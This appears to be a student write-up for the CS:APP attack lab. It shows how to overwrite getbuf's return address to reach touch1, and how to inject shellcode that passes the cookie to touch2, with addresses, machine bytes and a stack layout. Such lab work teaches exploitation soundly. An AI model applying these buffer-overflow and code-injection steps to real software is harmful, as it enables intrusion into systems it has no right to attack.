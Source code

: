 The answer bytes can be found in `./answer/<lv>.txt`.

## Lv 1
Overwrite `0x401976`(the real ret addr) with `0x4017c0`(the func `touch1` addr). 

The address can be examined with `x 0x28+$rsp` when the program is inside the function `getbuf`.

## Lv 2

Use gdb to inspect the following address:
- the address of `cookie`: `0x6044e4`
- the address of original ret address: `0x5561dca0`
- address of `touch2`: `0x4017ec`

Then we need a piece of injection code to excute the call to `touch2`. The injection code should start from the bottom of the memory space for `buf`, with a sequence of `nop`. Then it comes to the setting of the argument and ret address for calling `touch2`. 

Firstly overwrite the original ret address with `<injection>`'s address: [`0x5561dca0`, +4] = `0x5561dc78`, which is the bottom of the memory space for `buf`.

Then set the address for calling `<touch2>`: [`0x5561dc98`, +8] = `0x4017ec0000000000`, where is the top of the memory space for `buf`.

Then the injection code:

```asm
0000000000000000 <injection>:
   0:	90                   	nop
   1:	48 c7 c4 98 dc 61 55 	mov    $0x5561dc98,%rsp
   8:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
   f:	48 8b bf e4 44 60 00 	mov    0x6044e4(%rdi),%rdi
  16:	c3                   	ret
```

The stack should be like:
```
    addr of original ret -> addr of injection (0x5561dc78)
0x5561dca0 ^^^
buf:
    addr of touch2 (0x4017ec)
0x5561dc98 ^^^
injection:
    ret
    movq 0x6044e4(%rdi), %rdi
    movq $0, %rdi
    movq $0x5561dc98, %rsp
    nop...
0x5561dc78^^^
```